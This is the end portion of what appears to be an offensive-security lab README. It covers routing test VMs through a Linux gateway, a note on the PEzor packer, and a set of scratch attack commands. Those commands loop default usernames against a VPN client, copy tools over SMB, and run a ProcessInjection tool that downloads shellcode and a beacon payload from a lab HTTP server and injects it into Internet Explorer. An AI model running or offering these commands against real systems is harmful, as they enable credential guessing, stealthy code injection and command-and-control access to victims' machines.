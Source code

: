   ```
  ```
6. make it persistent at each restart :
  ```sh
  sudo apt install iptables-persistent && sudo iptables-save -c > /etc/iptables/rules.v4
  ```
7. Configure the Windows VM (Host-Only network interface) to use the linux VM as his gateway (set static IP address).
8. For DNS you can add the association into the file : `C:\Windows\System32\drivers\etc\hosts`
9. Test your payloads and enjoy your shells :+1:

---

### Automated testing 

CI Pipeline
**todo**

---

### VisualStudio compiler

Compiler location

```bat
C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.28.29333\bin\Hostx64\x64\Src
```

---

### Fix Pezor

Fixed by author. To check :

[Inline syscall old version](https://github.com/phra/PEzor/commit/531095695f56b7ab3add7c9c154ebce830e534a7)


---

### Vrac commands

```sh
for i in `cat /tmp/default_users_for_services_unhash.txt` ; do /opt/vpn_connect -u $i -p a -l /tmp/$i;done

copy \\192.168.56.200\tiki\processinjectionn.zip C:\Users\wee\
copy  C:\Users\wee\processinjectionn\ProcessInjection\ProcessInjection\bin\Debug\ProcessInjection.exe \\192.168.56.200\tiki\

ProcessInjection.exe.packed.exe /f:raw /url:http://192.168.56.200:9000/procinj /ppath:C:\program files\internet explorer\iexplore.exe /pid:7368 /t:4
ProcessInjection.exe /f:raw /url:http://192.168.56.200:9000/procinj /ppath:C:\program files\internet explorer\iexplore.exe /pid:7368 /t:4
ProcessInjection.exe /f:raw /url:http://192.168.56.200:9000/procinj /ppath:"C:\program files\internet explorer\iexplore.exe" /pid:4928 /t:3
ProcessInjection.exe /f:raw /url:http://192.168.56.200:9000/longhaul/longhaul_beacon/beacon64.bin.sgn /ppath:"C:\program files\internet explorer\iexplore.exe" /t:3

>cd "C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.28.29333\bin\Hostx64\x64>"
> copy Bin\wraith_x64_encoded.bin \\192.168.56.200\tiki\

```

---